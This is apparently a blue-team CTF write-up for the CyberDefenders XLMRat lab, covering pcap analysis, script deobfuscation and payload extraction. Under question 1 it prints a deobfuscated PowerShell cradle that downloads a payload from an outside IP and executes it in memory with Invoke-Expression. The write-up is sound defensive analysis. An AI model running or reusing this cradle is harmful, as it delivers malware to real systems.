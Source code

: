 CyberDefenders CTF Lab XLMRat
---

https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/

#### Scenario

Analyze network traffic to identify malware delivery, deobfuscate scripts, and map attacker techniques using MITRE ATT&CK, focusing on stealthy execution and reflective code loading.


#### Machine Environment 

- Windows 10 running in VMware workstation
- Flare Windows Install https://github.com/mandiant/flare-vm
- WireShark


### 1.  The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?
---

This pcap consists of 2 host conversations.
	
Wireshark -> Statistics -> Conversations

![image](https://github.com/user-attachments/assets/fe8eb902-92f8-42c3-86f2-251547f74dae)

The first GET request is for a xlm.txt file sourced from 10.1.9.101 and destined to 45.126.209.4

![image](https://github.com/user-attachments/assets/5387616c-63b1-4456-883b-c174120e23e0)

Use WireShark to export the HTTP files to your Windows Flare VM
	
File -> Export Objects -> HTTP

![image](https://github.com/user-attachments/assets/43b4cef2-81a7-46b1-93e1-0bba88230c9c)

The xlm.txt file contains a Visual Basic Script (VBS) that declares an array and stores pieces of code that get concatenated using a for loop.

![image](https://github.com/user-attachments/assets/bf331842-daba-41a5-abca-11a863e6ae8d)

***RUN CODE AT YOUR OWN RISK
 
By placing the wscript.echo command we can view the output of the variable to the console.

![image](https://github.com/user-attachments/assets/96a50816-aebd-4861-b747-3c543bc282e9)

Open a command prompt and run the .vbs file with cscript.exe displaying the output. 

![image](https://github.com/user-attachments/assets/14dea8b7-4225-46fc-9493-9841ff497ff3)

Bring the output into a text editor and clean it up.  The "[BYTe[]]" lines are not useful and probably a way to confuse people and machine.  

	$A123 = "IeX(NeW-OBJeCT NeT.W"
	$B456 = "eBCLIeNT).DOWNLO"
	$C789 = "'VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING')"
	IeX($A123+$B456+$C789)

This script downloads the first stage of malware and executes in into memory using Invoke-Expression (IeX)

### 2.  
Which hosting provider owns the associated IP address?
---

Using a web site like https://whois.domaintools.com/ shows the hosting provider name.

![image](https://github.com/user-attachments/assets/bd612ade-da08-4bc9-9dff-108e6e7c696e)

### 3.  By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable?
---

Analyzing the mdm.jpg file we open it with a text editor to see two long HEX variables with some PowerShell and VBS code.  Lets isolate both HEX variables into their own files and convert those HEX files to executable.  Part of the mdm.jpg file has the script needed to convert since it performs those actions when run.  

![image](https://github.com/user-attachments/assets/704145a1-65f9-4ed7-bc55-6f53e6a4fb87)

Create a simple PowerShell script to convert both HEX values to executables.

![image](https://github.com/user-attachments/assets/33894fb9-3ff8-446f-8a38-8a1c6968e6b2)

Both newly created file details show their original filename.  Stub.exe and NewPE2.dll		

![image](https://github.com/user-attachments/assets/91988140-e6d6-4e92-8c7f-8bb3dc715949)

Get the SHA256 of the Stub.exe file as this is the malware executable

![image](https://github.com/user-attachments/assets/0d421874-af85-4e08-a789-8e78e273b443)

### 4.  What is the malware family label based on Alibaba?
---

![image](https://github.com/user-attachments/assets/df479b8a-70b9-436d-b932-7ca89e7f147b)


### 5.  What is the timestamp of the malware's creation?
---

![image](https://github.com/user-attachments/assets/ee901fd2-baf2-4b3e-9e8f-4875befbb5d6)

### 6.  Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.
---

We can grab the portion of LOLBin code and run it independently giving us the path.

![image](https://github.com/user-attachments/assets/13cc40ff-696e-48e3-b7a6-887eeb74c973)

### 7.  The script is designed to drop several files. List the names of the files dropped by the script.
---

	-The malware creates a PowerShell script (conted.ps1) containing the 2 HEX variables and loads NewPE2.dll
	-Then creates a batch file (conted.bat) which uses powershell.exe to run the ps1 file.
	-Finally creating a VBS file (conted.vbs) which leverages WScript.shell to run conted.bat

![image](https://github.com/user-attachments/assets/f4c95d80-08c0-4a0f-9bd6-1658b410fe33)
![image](https://github.com/user-attachments/assets/750c2c1c-7c0a-4c1b-af10-8c002f41ce4c)























